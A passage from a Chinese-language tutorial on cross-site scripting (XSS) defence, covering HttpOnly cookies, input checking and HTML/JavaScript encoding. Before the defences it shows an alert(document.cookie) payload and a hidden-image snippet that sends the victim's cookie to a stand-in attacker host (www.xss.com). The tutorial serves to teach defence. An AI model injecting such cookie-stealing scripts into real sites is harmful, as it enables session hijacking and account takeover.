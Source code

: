     ```
      <script>
          alert(document.cookie)
      </script>
    ```
    
    ![](https://pocket-image-cache.com/direct?url=https%3A%2F%2Fuser-gold-cdn.xitu.io%2F2017%2F10%2F11%2Faa56d21af683d668e82458e05d731c30%3FimageView2%2F0%2Fw%2F1280%2Fh%2F960&resize=w640)
    
    Cookie 发送给攻击者的站点：
    
    ```
      var img = document.createElement('img')
      img.src='http://www.xss.com?cookie=' + document.cookie
      img.style.display='none'
      document.getElementsByTagName('body')[0].appendChild(img)
    ```
    
    当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。
    

### 防御

按理说，只要有输入数据的地方，就可能存在 XSS 危险。

*   httpOnly: 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。
    
    ```
      // koa
      ctx.cookies.set(name, value, {
          httpOnly: true // 默认为 true
      })
      `
    ```
    
*   *   输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。
        
        不仅仅是前端负责，后端也要做相同的过滤检查。
        
        因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。
        
    *   HtmlEncode  
        某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换
        
        ![](https://pocket-image-cache.com/direct?url=https%3A%2F%2Fuser-gold-cdn.xitu.io%2F2017%2F10%2F11%2F4d4d037c9605e38189a4f55b017556f1%3FimageView2%2F0%2Fw%2F1280%2Fh%2F960&resize=w640)
        
        当用户输入`<script>window.location.href=”http://www.baidu.com”;</script>`, 最终保存结果为 `<script>window.location.href="http://www.baidu.com"</script>`, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。
        
    *   JavaScriptEncode  
        对下列字符加上反斜杠
        
        ![](https://pocket-image-cache.com/direct?url=https%3A%2F%2Fuser-gold-cdn.xitu.io%2F2017%2F10%2F11%2F051856aa46f5508f0b2737a36c113928%3FimageView2%2F0%2Fw%2F1280%2Fh%2F960&resize=w640)
        
        关于更多 HtmlEncode 和 JavaScriptEncode，请参考 [www.cnblogs.com/lovesong/p/…](https://link.juejin.im?target=http%3A%2F%2Fwww.cnblogs.com%2Flovesong%2Fp%2F5211667.html)
        